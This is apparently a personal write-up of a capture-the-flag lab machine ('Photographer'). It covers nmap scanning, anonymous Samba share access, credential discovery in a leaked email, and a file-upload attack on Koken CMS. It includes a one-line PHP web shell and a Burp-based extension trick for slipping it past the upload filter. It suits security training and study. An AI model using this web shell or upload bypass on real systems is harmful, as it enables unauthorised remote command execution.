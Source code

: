 - browsed on a browser, gets webpage confirming its a webserver
- checked robots.txt, source code, not found
- Did a service enumeration
```
nmap -sV 192.168.108.76
```

```
- service ports enumeration Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8000/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Two **http** ports found, browsed to **port 8000** and found a Koken admin login
- Also samba services were also found to be running.
### Exploiting samba
- https://docs.centrify.com/Content/zint-samba/ConfigurationUNIXAccess.htm
- https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63
- connecting to a samba client:
	smbclient -k -L hostname (list info abou samba and smbclient)

-  Use SMB CLient to check for anonymous access
		-N -- no pass
		-L -- list

```
	WORKGROUP            PHOTOGRAPHER
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ smbclient -N -L //192.168.108.76

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER
```

- Check workgroups you can access without passwd:
		-H --host
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ smbmap -H 192.168.108.76
[+] Guest session   	IP: 192.168.108.76:445	Name: 192.168.108.76                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	sambashare                                        	READ ONLY	Samba on Ubuntu
	IPC$                                              	NO ACCESS	IPC Service (photographer server (Samba, Ubuntu))
```
- We have read access to sambashare, so accesss it through smbclient:
	```
	smbclient -N //192.168.108.76/sambashare
	```
- Output
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ smbclient -N //192.168.108.76/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Aug 20 18:51:08 2020
  ..                                  D        0  Thu Aug 20 19:08:59 2020
  mailsent.txt                        N      503  Tue Jul 21 04:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 04:22:23 2020

		3300080 blocks of size 1024. 2958792 blocks available
smb: \> more mailsent.txt
getting file \mailsent.txt of size 503 as /tmp/smbmore.QPUKEq (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> nc
nc: command not found
smb: \> zip
zip: command not found
smb: \> unzip
unzip: command not found
smb: \> get mailsent.txt
getting file \mailsent.txt of size 503 as mailsent.txt (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> get wordpress.bkp.zip
parallel_read returned NT_STATUS_IO_TIMEOUT
smb: \> getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip SMBecho failed (NT_STATUS_CONNECTION_DISCONNECTED). The connection is disconnected now
```

- Dowload the two files using:
get [local-file-name]  -	Copy the file called remote-file-name from the server to the machine running the client. If specified, name the local copy local-file-name. Note that all transfers in smbclient are binary. See also the lowercase command
i.e.
```
get mailsent.txt
```


```
cat mailsent.txt
```

```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ more mailsent.txt
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$
```

- We have the email of the one who's website was built: **daisa@photographer.com** while the password from mailsent.txt
as **babygirl**

- Create a php file image.php.jpg (extension to trick server into uploading php file as image) with contents
```
   <?php system($_GET['cmd']);?>
```
- On Koken cms dashboard, import the image.
- Intercept, request via burp and rename the uploading file from **image.php.jpg** to **image.php**, then upload the file.
- On Koken cms library, select the file and put the mouse on "Download File" to see where file is hosted on server
